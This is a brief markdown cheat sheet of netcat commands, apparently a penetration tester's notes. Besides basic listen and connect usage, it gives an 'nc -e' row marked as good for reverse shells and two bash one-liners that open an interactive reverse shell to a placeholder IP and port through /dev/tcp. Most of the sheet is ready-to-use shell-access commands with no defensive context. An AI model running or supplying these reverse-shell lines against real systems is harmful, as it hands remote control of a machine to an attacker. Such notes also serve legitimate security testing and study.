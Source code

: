 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
`setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`
`bash -i &>/dev/tcp/IP/PORT 0>&1' #`